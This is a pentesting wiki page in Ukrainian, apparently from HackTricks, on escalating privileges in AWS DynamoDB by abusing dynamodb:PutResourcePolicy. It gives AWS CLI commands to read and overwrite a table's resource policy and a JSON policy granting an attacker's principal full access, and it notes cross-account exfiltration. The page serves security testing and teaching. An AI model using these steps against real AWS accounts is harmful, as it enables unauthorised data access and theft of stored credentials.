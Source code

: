 # AWS - DynamoDB Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## dynamodb

Для додаткової інформації про dynamodb див.:

{{#ref}}
../../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, and optionally `dynamodb:GetResourcePolicy`

З березня 2024 року AWS пропонує *політики на рівні ресурсів* для DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Тобто, якщо у вас є `dynamodb:PutResourcePolicy` для таблиці, ви можете просто надати собі або будь-якому іншому суб'єкту повний доступ до таблиці.

Надання `dynamodb:PutResourcePolicy` випадковому суб'єкту часто відбувається ненавмисно, якщо адміністратори думають, що надання `dynamodb:Put*` дозволить суб'єкту лише записувати елементи в базу даних — або якщо вони надали цей набір дозволів до березня 2024 року...

Ідеально, якщо у вас також є `dynamodb:GetResourcePolicy`, щоб ви не перезаписали інші потенційно критичні дозволи, а лише додали потрібні вам дозволи:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Якщо ви не можете отримати поточну політику, просто використайте цю, яка надає повний доступ до таблиці вашому principal:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Якщо потрібно налаштувати, ось список усіх можливих дій DynamoDB: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). А ось список усіх дій, які можна дозволити через resource based policy *AND which of these can be used cross-account (think data exfiltration!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Тепер, коли документ політики `policy.json` готовий, додайте resource policy:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Тепер у вас мають бути потрібні дозволи.

### Post Exploitation

Наскільки мені відомо, **немає іншого прямого способу to escalate privileges in AWS лише маючи певні AWS `dynamodb` дозволи**. Ви можете **читати чутливу** інформацію з таблиць (які можуть містити AWS credentials) та **записувати інформацію в таблиці** (що може спровокувати інші вразливості, наприклад lambda code injections...), але всі ці варіанти вже розглянуті на **DynamoDB Post Exploitation page**:

{{#ref}}
../../aws-post-exploitation/aws-dynamodb-post-exploitation/README.md
{{#endref}}

### TODO: Прочитати дані, зловживаючи data Streams

{{#include ../../../../banners/hacktricks-training.md}}
